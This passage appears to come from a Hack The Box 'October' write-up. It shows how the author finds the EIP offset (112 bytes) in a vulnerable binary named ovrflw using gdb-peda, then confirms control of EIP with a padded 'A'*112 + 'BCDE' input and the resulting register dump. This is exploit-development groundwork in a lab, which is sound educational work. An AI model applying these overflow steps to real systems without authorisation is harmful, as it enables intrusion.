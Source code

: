 Nice, the `EIP` was overwritten. Let’s find the exact number of bytes needed to offset it.

```bash
# Find the EIP offset
gdb-peda$ pattern_offset AA8A
1094205761 found at offset: 112

# Find the EIP address offset
gdb-peda$ pattern_offset 0x41384141 150
1094205761 found at offset: 112
```

Let’s do a sanity check that we found the correct number of bytes.

```bash
# create a 112 bytes long of A and then add BCDE
gdb-peda$ run `python -c 'print "A"*112 + "BCDE"'`
Starting program: /home/shiro/HackTheBox/October/ovrflw `python -c 'print "A"*112 + "BCDE"'`
[----------------------------------registers-----------------------------------]
EAX: 0xf7fa59e8 --> 0xffffd4c0 --> 0xffffd6c6 ("LANG=en_SG.UTF-8")
EBX: 0x0 
ECX: 0x5eba623b 
EDX: 0xffffd444 --> 0x0 
ESI: 0x2 
EDI: 0x8048380 (<_start>:	xor    ebp,ebp)
EBP: 0xffffd408 --> 0x0 
ESP: 0xffffd408 --> 0x0 
EIP: 0x8048480 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048478 <frame_dummy+40>:	jmp    0x80483f0 <register_tm_clones>
   0x804847d <main>:	push   ebp
   0x804847e <main+1>:	mov    ebp,esp
=> 0x8048480 <main+3>:	and    esp,0xfffffff0
   0x8048483 <main+6>:	add    esp,0xffffff80
   0x8048486 <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x804848a <main+13>:	jg     0x80484ad <main+48>
   0x804848c <main+15>:	mov    eax,DWORD PTR [ebp+0xc]
[------------------------------------stack-------------------------------------]
0000| 0xffffd408 --> 0x0 
0004| 0xffffd40c --> 0xf7dd6905 (<__libc_start_main+229>:	add    esp,0x10)
0008| 0xffffd410 --> 0x2 
0012| 0xffffd414 --> 0xffffd4b4 --> 0xffffd62b ("/home/shiro/HackTheBox/October/ovrflw")
0016| 0xffffd418 --> 0xffffd4c0 --> 0xffffd6c6 ("LANG=en_SG.UTF-8")
0020| 0xffffd41c --> 0xffffd444 --> 0x0 
0024| 0xffffd420 --> 0xffffd454 --> 0x1bc33e2b 
0028| 0xffffd424 --> 0xf7ffdb98 --> 0xf7ffdb30 --> 0xf7fc33f0 --> 0xf7ffd9d0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048480 in main ()
gdb-peda$ continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffd6c0 ("ABCDE")
EDX: 0xffffd40b ("ABCDE")
ESI: 0x2 
EDI: 0x8048380 (<_start>:	xor    ebp,ebp)
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd410 --> 0x0 
EIP: 0x45444342 ('BCDE') # we managed to offset the EIP to "BCDE"
```